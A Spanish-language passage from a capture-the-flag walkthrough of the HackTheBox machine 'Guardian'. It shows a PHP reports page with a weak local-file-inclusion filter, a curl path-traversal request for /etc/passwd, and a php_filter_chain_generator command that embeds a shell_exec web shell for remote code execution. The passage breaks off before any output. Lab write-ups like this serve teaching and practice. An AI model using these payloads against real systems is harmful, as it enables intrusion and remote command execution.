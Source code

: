 Veremos que somos rol `admin` por lo que funciono todo de forma correcta, si vemos el archivo `reports.php` desde `gitea` vamos a ver un `LFI` super claro en esta parte del codigo:

```php
<?php
require '../includes/auth.php';
require '../config/db.php';

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

?>

.............................<RESTO DE CODIGO>.....................................
```

Pero si probamos a intentar explotarlo:

```shell
curl -b "PHPSESSID=<COOKIE>" "http://portal.guardian.htb/admin/reports.php?report=../../../../etc/passwd"
```

Info:

```
<h2>Malicious request blocked 🚫 </h2>
```

Vamos a ver que como vimos en el codigo lo bloquea, por lo que tendremos que intentar `bypassearlo` de esta forma:

## LFI / RFI usando wrappers

Vamos a utilizar directamente `wrappers` de un `LFI` con el siguiente repositorio en el cual te genera un codigo para pegar en la `URL` y asi poder realizar un `RCE`.

URL = [Generate Wrapper LFI (RCE)](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)

```shell
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

Info:
